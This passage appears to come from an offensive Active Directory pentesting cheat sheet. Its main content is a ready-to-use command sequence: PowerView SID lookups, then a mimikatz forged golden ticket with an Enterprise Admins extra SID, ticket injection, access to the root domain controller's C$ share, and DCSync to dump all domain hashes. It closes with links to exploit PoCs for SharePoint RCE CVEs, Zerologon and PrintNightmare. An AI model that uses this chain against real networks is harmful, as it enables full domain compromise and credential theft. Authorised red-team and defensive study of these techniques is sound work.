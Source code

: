 Exploitation example:
```
#Get the SID of the Current Domain using PowerView
Get-DomainSID -Domain current.root.domain.local

#Get the SID of the Root Domain using PowerView
Get-DomainSID -Domain root.domain.local

#Create the Enteprise Admins SID
Format: RootDomainSID-519

#Forge "Extra" Golden Ticket using mimikatz
kerberos::golden /user:Administrator /domain:current.root.domain.local /sid:<CurrentDomainSID> /krbtgt:<krbtgtHash> /sids:<EnterpriseAdminsSID> /startoffset:0 /endin:600 /renewmax:10080 /ticket:\path\to\ticket\golden.kirbi

#Inject the ticket into memory
kerberos::ptt \path\to\ticket\golden.kirbi

#List the DC of the Root Domain
dir \\dc.root.domain.local\C$

#Or DCsync and dump the hashes using mimikatz
lsadump::dcsync /domain:root.domain.local /all
```

Detailed Articles:
- [Kerberos Golden Tickets are Now More Golden](https://adsecurity.org/?p=1640)
- [A Guide to Attacking Domain Trusts](http://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/)
### Exploiting SharePoint
- [CVE-2019-0604](https://medium.com/@gorkemkaradeniz/sharepoint-cve-2019-0604-rce-exploitation-ab3056623b7d) RCE Exploitation \
  [PoC](https://github.com/k8gege/CVE-2019-0604)
- [CVE-2019-1257](https://www.zerodayinitiative.com/blog/2019/9/18/cve-2019-1257-code-execution-on-microsoft-sharepoint-through-bdc-deserialization)  Code execution through BDC deserialization
- [CVE-2020-0932](https://www.zerodayinitiative.com/blog/2020/4/28/cve-2020-0932-remote-code-execution-on-microsoft-sharepoint-using-typeconverters) RCE using typeconverters \
  [PoC](https://github.com/thezdi/PoC/tree/master/CVE-2020-0932)
  
### Zerologon
- [Zerologon: Unauthenticated domain controller compromise](https://www.secura.com/pathtoimg.php?id=2055): White paper of the vulnerability.
- [SharpZeroLogon](https://github.com/nccgroup/nccfsas/tree/main/Tools/SharpZeroLogon): C# implementation of the Zerologon exploit.
- [Invoke-ZeroLogon](https://github.com/BC-SECURITY/Invoke-ZeroLogon): Powershell implementation of the Zerologon exploit.
- [Zer0Dump](https://github.com/bb00/zer0dump): Python implementation of the Zerologon exploit using the impacket library.

### PrintNightmare
- [CVE-2021-34527](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-34527): Vulnerability details.
- [Impacket implementation of PrintNightmare](https://github.com/cube0x0/CVE-2021-1675): Reliable PoC of PrintNightmare using the impacket library.
- [C# Implementation of CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare): Reliable PoC of PrintNightmare written in C#.
